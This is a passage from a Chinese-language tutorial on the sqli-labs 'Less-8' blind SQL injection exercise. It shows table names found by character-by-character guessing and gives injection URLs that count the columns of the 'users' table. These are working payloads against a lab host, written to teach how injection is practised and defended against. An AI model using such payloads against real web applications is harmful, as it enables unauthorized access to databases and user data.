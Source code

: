 确定ascii码值为101,对应的字符为`e`。

接下来用二分法判断第一个表的第二个字符。

最终能测试出存在下面几张表:

* emails
* referers
* uagents
* users

### 获取列 ###

#### 获取列数 ####

对感兴趣的表获取列数,以users为例。

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 3=(select count(column_name) from information_schema.columns where table_name='users')%23`

![13](/img/sql/Lesson-8/13.png)

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 4=(select count(column_name) from information_schema.columns where table_name='users')%23`
